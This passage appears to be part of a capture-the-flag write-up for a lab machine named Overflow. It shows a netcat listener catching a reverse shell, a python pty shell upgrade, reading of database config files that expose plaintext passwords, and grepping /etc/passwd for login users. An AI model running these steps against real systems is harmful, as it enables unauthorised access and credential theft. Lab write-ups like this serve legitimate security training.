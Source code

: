 Lets start a netcat listener on port 4444 and upload the generated jpeg file.
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.119] 38406

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@overflow:~/devbuild-job/home/profile$
```

## Shell as www-data
Looking through the web folders we find some credentials.
`~/devbuild-job/config/db.php`
```bash
www-data@overflow:~/devbuild-job/config$ cat db.php 
<?php
$lnk = mysqli_connect("localhost","dev_manager", "3RyxKah_hBf*V6ja","develop");
?>
```

And

`~/html/config/db.php`
```bash
www-data@overflow:~/html/config$ cat db.php 
<?php 

#define('DB_Server', 'localhost');
#define('DB_Username', 'root');
#define('DB_Password','root');
#define('DB_Name', 'Overflow');

$lnk = mysqli_connect("localhost","developer", "sh@tim@n","Overflow");
$db = mysqli_select_db($lnk,"Overflow");

if($db == false){
    dir('Cannot Connect to Database');
}

?>

```

We need to escalate to a user, preferable with shell. Lets look at the `/etc/passwd`:
```
www-data@overflow:~/devbuild-job/config$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
tester:x:1000:1000:tester,,,:/home/tester:/bin/bash
developer:x:1001:1001::/home/developer:/bin/sh
```
